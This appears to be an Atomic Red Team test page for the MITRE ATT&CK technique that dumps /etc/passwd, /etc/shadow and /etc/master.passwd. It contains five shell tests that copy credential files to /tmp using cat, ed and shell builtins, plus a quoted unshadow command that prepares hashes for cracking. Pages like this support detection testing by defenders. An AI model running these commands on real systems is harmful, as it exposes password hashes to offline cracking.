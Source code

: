 # T1003.008 - OS Credential Dumping: /etc/passwd, /etc/master.passwd and /etc/shadow
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1003/008)
<blockquote>Adversaries may attempt to dump the contents of <code>/etc/passwd</code> and <code>/etc/shadow</code> to enable offline password cracking. Most modern Linux operating systems use a combination of <code>/etc/passwd</code> and <code>/etc/shadow</code> to store user account information including password hashes in <code>/etc/shadow</code>. By default, <code>/etc/shadow</code> is only readable by the root user.(Citation: Linux Password and Shadow File Formats)

The Linux utility, unshadow, can be used to combine the two files in a format suited for password cracking utilities such as John the Ripper:(Citation: nixCraft - John the Ripper) <code># /usr/bin/unshadow /etc/passwd /etc/shadow > /tmp/crack.password.db</code>
</blockquote>

## Atomic Tests

- [Atomic Test #1 - Access /etc/shadow (Local)](#atomic-test-1---access-etcshadow-local)

- [Atomic Test #2 - Access /etc/master.passwd (Local)](#atomic-test-2---access-etcmasterpasswd-local)

- [Atomic Test #3 - Access /etc/passwd (Local)](#atomic-test-3---access-etcpasswd-local)

- [Atomic Test #4 - Access /etc/{shadow,passwd,master.passwd} with a standard bin that's not cat](#atomic-test-4---access-etcshadowpasswdmasterpasswd-with-a-standard-bin-thats-not-cat)

- [Atomic Test #5 - Access /etc/{shadow,passwd,master.passwd} with shell builtins](#atomic-test-5---access-etcshadowpasswdmasterpasswd-with-shell-builtins)


<br/>

## Atomic Test #1 - Access /etc/shadow (Local)
/etc/shadow file is accessed in Linux environments

**Supported Platforms:** Linux


**auto_generated_guid:** 3723ab77-c546-403c-8fb4-bb577033b235





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Path where captured results will be placed | path | /tmp/T1003.008.txt|


#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
sudo cat /etc/shadow > #{output_file}
cat #{output_file}
```

#### Cleanup Commands:
```bash
rm -f #{output_file}
```





<br/>
<br/>

## Atomic Test #2 - Access /etc/master.passwd (Local)
/etc/master.passwd file is accessed in FreeBSD environments

**Supported Platforms:** Linux


**auto_generated_guid:** 5076874f-a8e6-4077-8ace-9e5ab54114a5





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Path where captured results will be placed | path | /tmp/T1003.008.txt|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo cat /etc/master.passwd > #{output_file}
cat #{output_file}
```

#### Cleanup Commands:
```sh
rm -f #{output_file}
```





<br/>
<br/>

## Atomic Test #3 - Access /etc/passwd (Local)
/etc/passwd file is accessed in FreeBSD and Linux environments

**Supported Platforms:** Linux


**auto_generated_guid:** 60e860b6-8ae6-49db-ad07-5e73edd88f5d





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Path where captured results will be placed | path | /tmp/T1003.008.txt|


#### Attack Commands: Run with `sh`! 


```sh
cat /etc/passwd > #{output_file}
cat #{output_file}
```

#### Cleanup Commands:
```sh
rm -f #{output_file}
```





<br/>
<br/>

## Atomic Test #4 - Access /etc/{shadow,passwd,master.passwd} with a standard bin that's not cat
Dump /etc/passwd, /etc/master.passwd and /etc/shadow using ed

**Supported Platforms:** Linux


**auto_generated_guid:** df1a55ae-019d-4120-bc35-94f4bc5c4b0a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Path where captured results will be placed | path | /tmp/T1003.008.txt|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
unamestr=$(uname)
if [ "$unamestr" = 'Linux' ]; then echo -e "e /etc/passwd\n,p\ne /etc/shadow\n,p\n" | ed > #{output_file}; elif [ "$unamestr" = 'FreeBSD' ]; then echo -e "e /etc/passwd\n,p\ne /etc/master.passwd\n,p\ne /etc/shadow\n,p\n" | ed > #{output_file}; fi
```

#### Cleanup Commands:
```sh
rm -f #{output_file}
```





<br/>
<br/>

## Atomic Test #5 - Access /etc/{shadow,passwd,master.passwd} with shell builtins
Dump /etc/passwd, /etc/master.passwd and /etc/shadow using sh builtins

**Supported Platforms:** Linux


**auto_generated_guid:** f5aa6543-6cb2-4fae-b9c2-b96e14721713





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Path where captured results will be placed | path | /tmp/T1003.008.txt|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
testcat(){ (while read line; do echo $line >> #{output_file}; done < $1) }
[ "$(uname)" = 'FreeBSD' ] && testcat /etc/master.passwd
testcat /etc/passwd
testcat /etc/shadow
```

#### Cleanup Commands:
```sh
rm -f #{output_file}
```





<br/>
